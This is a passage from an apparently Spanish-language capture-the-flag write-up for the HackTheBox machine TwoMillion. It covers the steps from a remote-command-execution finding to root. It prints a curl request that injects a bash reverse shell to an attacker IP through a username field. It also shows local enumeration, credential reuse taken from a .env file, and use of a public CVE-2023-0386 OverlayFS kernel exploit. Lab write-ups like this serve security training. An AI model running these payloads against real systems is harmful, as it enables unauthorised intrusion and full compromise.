

Bingo, acabamos de conseguir un **RCE**. Con capacidad de ejecución remota de comandos en la máquina, solo quedaría llevar a cabo la intrusión lanzándonos una *reverse shell* a nuestra máquina atacante.

### Entablando *Reverse Shell* 

```bash
nc -nlvp 443 # nos ponemos en escucha en nuestra máquina atacante
```

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"username": "raul; bash -c \"bash -i >& /dev/tcp/10.10.14.51/443 0>&1\" #"}'
```

{: width="600" }

De esta forma ganamos acceso a la máquina víctima. Quedaría realizar un tratamiento de la TTY.

#### Tratamiento de la TTY

```bash
script /dev/null -c bash
# ctrl + z 
stty raw -echo; fg
reset xterm 
export TERM=xterm SHELL=bash
stty rows 53 columns 206
```

## Escalada de privilegios 

- - -

### Enumeración local 

```bash
grep 'sh$' /etc/passwd
```



```bash
find / -perm -4000 -ls 2>/dev/null | grep -v snap
```

{: width="1000" }

```bash
getcap -r / 2>/dev/null
```

{: width="1000" }

No encontramos nada destacable; podemos ver los archivos de configuración del servicio web a ver si hay credenciales hardcodeadas en el código.

{: width="500" }

Vemos varias cosas que nos deben llamar la atención: un archivo “.env” que contendrá distintas variables de entorno, y un “Databases.php” que vamos a inspeccionar:

{: width="500" }

Un extracto de su código contiene variables que corresponden a las credenciales de una base de datos y que no están en ninguna parte del código, pero, si recordamos, antes vimos un archivo *.env*…



De aquí saca el código el contenido de las variables correspondientes a las credenciales de la base de datos.

### User Pivoting (reutilización de credenciales)

Como vemos que el username es admin y en la máquina víctima existe otro usuario admin, podemos tratar de verificar si se está aplicando reutilización de credenciales y podemos migrar a dicho usuario.

{: width="600" }

Efectivamente, estamos en lo cierto, y además nos indica que podemos ejecutar comandos como el usuario root; vamos a ver.

```bash
sudo -l
```

{: width="500" }

Era un *rabbithole*; en este punto vamos a volver a aplicar una enumeración local desde el contexto de este usuario.

{: width="500" }

En el home del usuario admin encontramos la primera flag de usuario. En este punto podemos conectarnos por SSH con el usuario admin para trabajar más cómodamente.

```bash
ssh admin@10.129.133.245
```

{: width="500" }

De hecho, al conectarnos, si nos fijamos entre todo el ruido de la información que aparece, nos pone “You have mail”. El usuario admin recibió correos electrónicos; generalmente, la ruta del sistema en la que se encuentran estos correos es */var/mail*, vamos a echar un vistazo:



El correo electrónico procede de **ch4p**, el CEO de HackTheBox, indicando que es necesario actualizar el sistema ya que han salido varios CVEs para el kernel de Linux, entre ellos **OverlayFS / FUSE**. Sabiendo esto, sabemos por dónde tenemos que tirar para escalar privilegios: una explotación de kernel.

```bash
uname -a 
```



Si realizamos la búsqueda en internet de “kernel 5.15.70 exploit”, ya nos sale:

{: width="600" }

El **CVE-2023-0386 OverlayFS**, del que nos aprovecharemos para escalar privilegios.

### Explotación de kernel (**CVE-2023-0386 OverlayFS**)

En este caso vamos a estar utilizando este [repositorio](https://github.com/sxlmnwb/CVE-2023-0386) de GitHub para explotar la vulnerabilidad, por lo que lo clonamos y transferimos el contenido a la máquina víctima.

```bash
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

```bash
scp -r CVE-2023-0386 admin@10.129.133.245:/home/admin
```

{: width="600" }

Una vez copiado, podemos seguir las instrucciones del repositorio para llevar a cabo la explotación.

```bash
make all
```

Una vez compilados los binarios:

```bash
./fuse ./ovlcap/lower ./gc
```

Y desde una segunda terminal en la máquina víctima ejecutamos `./exp`; para ello nos conectamos por SSH de nuevo.

{: width="500" }

Y de esta forma explotamos la vulnerabilidad del kernel y logramos convertirnos en usuario root abusando del **CVE-2023-0386 OverlayFS**. En el directorio */root* encontramos su flag:


Como último reto, cabe destacar que tenemos el archivo *thank_you.json*, que os dejo a vosotros para que intentéis obtener el mensaje por vuestra cuenta; únicamente lo dejaré ya resuelto por aquí.


Y de esta forma habríamos completado la máquina **TwoMillion** de HackTheBox!!!


